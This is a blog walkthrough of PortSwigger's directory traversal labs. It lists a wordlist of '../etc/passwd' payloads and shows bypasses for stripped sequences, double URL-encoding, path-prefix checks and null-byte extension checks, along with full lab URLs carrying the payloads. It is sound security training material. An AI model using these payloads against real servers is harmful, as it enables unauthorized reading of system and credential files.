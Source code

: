 ```yaml
---
date: 2021-06-29 23:48:05
layout: post
title: Directory Traversal Vulnerabilities
subtitle: PortSwigger Writeup.
description: >-
  in this blog i've explained how to Directory Traversal Vulnerabilities and labs in PortSwigger
image: https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/9d998b3f95ea806a4aa2073ee29b4cd2f8c97f6a/assets/img/Directory-traversal/directory-traversal.svg
optimized_image: https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/9d998b3f95ea806a4aa2073ee29b4cd2f8c97f6a/assets/img/Directory-traversal/directory-traversal.svg
category: PortSwigger
tags:
  - PortSwigger
  - injection
author: Mahmoud S. Atia
paginate: true
---
```





![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/a501f51198723ff4fc8affcf4efebd531850b85d/assets/img/Directory-traversal/directory-traversal.svg)

# What is directory traversal?

Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files. In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.

------------

#  Note

The enumeration process is very important to know the os to use a custom payload for it.

- Payload Wordlist

1. ../etc/passwd
2. ../../etc/passwd
3. ../../../etc/passwd
4. ../../../../etc/passwd
5. ../../../../../etc/passwd
6. ../../../../../../etc/passwd
7. ../../../../../../../etc/passwd
8. ../../../../../../../../etc/passwd
9. ../../../../../../../../../etc/passwd
10. ../../../../../../../../../../etc/passwd
11. ../../../../../../../../../../../etc/passwd
12. ../../../../../../../../../../../../etc/passwd
13. ../../../../../../../../../../../../../etc/passwd
14. ../../../../../../../../../../../../../../etc/passwd
15. ../../../../../../../../../../../../../../../../etc/passwd

In all  portswigger labs, to solve the lab, retrieve the contents of the
>/etc/passwd 

file so let's make our payloads list. If there any validation we will try to bypass it.

At first open **burpsuite**

# Lab: File path traversal, simple case

Access the lab. To solve the lab we should retrieve the content of /etc/passwd file. Open any image in new tab and see the url

>https://ac6d1f8d1e83342b80f310b9001f00b4.web-security-academy.net/image?filename=16.jpg

We will try to inject th payload after filename= so inercept the requst then send to intruder match the image name and take our wordlsit then past in payload options [simple lsit]. start attack

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Directory-traversal/simple-case.png)

labe solved

- Note: in Linux serve if If the number " ../"  is large, it won't change the output [result].

------------

# Lab: File path traversal, traversal sequences blocked with absolute path bypass
Access the lab.
As we did in Lab: File path traversal, simple case but sent the request to repeater delete file name and try to inject 
simple payload 
>/etc/passwd

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Directory-traversal/File-path-traversal-traversal-sequences-blocked-with-absolute-path-bypass.png)

labe solved

------------

# Lab: File path traversal, traversal sequences stripped non-recursively

- Note:  The application strips path traversal sequences from the user-supplied filename before using it

So we will try to bypass this validation. we will try to bypass it by replace 
>../../

by
>....//
>....\/

So our payload format  will be as

>....//etc/passwd
>....\/etc/passwd

So replace ../../ at the prefix of our payload and make the wordlist. Past in payload options [simple lsit] then start attack

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Directory-traversal/File-path-traversal-traversal-sequences-stripped-non-recursively.png)

 Lab Solved

------------

# Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

Access the lab. As we did in Lab: File path traversal, simple case but sent the intruder past in payload options [simple lsit]

Go to payload processing and add 2 URL-encode all characters 

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Directory-traversal/File-path-traversal-traversal-sequences-stripped-with%20superfluous-URL-decode-1.png)

start attack

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Directory-traversal/File-path-traversal-traversal-sequences-stripped-with%20superfluous-URL-decode-2.png)

 Lab Solved

------------

# Lab: File path traversal, validation of start of path

let's open any image in the new tab. See the URL

>https://ac5d1ff91ffa42cb80f3178300bb0085.web-security-academy.net/image?filename=/var/www/images/54.jpg

This the path to save images
>/var/www/images/

to to read passwd file we shoud go back  3 stip by ../
>../../../etc/passwd

so the URL

>https://ac5d1ff91ffa42cb80f3178300bb0085.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Directory-traversal/File-path-traversal-validation-of-start-of-path.png)

 Lab Solved

------------

# Lab: File path traversal, validation of file extension with null byte bypass

As in the name of the lab [validation of file extension with null byte bypass]

our payloads should contain null bytes to bypass the validation 

|Decimal| 0  |
| ------------ | ------------ |
| Character  |  NUL(null character) |
|URL Encoding (UTF-8)   |   %00|

The application validates that the supplied filename ends with the expected file extension.

so the payloads should contain the name of the file [in our case image name ]at the end

so payload format should be as

../../../ect/passwd%00.ImageName.png

Go to Payload Processing add suffix %00.


![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Directory-traversal/File-path-traversal-validation-of-file-extension-with-null-byte-bypass-1.png)


start attack

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/Directory-traversal/File-path-traversal-validation-of-file-extension-with-null-byte-bypass-2.png)

 Lab Solved

# All portswigger Directory traversal labs solved

![](https://media.tenor.co/images/64bf3b5260e5e0612038f89b3acb54d7/tenor.gif)
